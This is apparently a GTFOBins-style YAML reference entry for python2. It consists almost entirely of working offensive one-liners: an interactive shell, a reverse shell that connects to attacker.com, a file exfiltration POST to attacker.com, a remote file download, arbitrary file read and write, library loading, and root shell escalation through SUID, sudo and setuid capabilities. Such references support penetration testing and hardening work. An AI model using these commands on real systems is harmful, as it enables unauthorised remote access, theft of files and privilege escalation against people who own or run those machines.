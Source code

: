 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2;
        from os import environ as e;
        u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
  capabilities-enabled:
    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

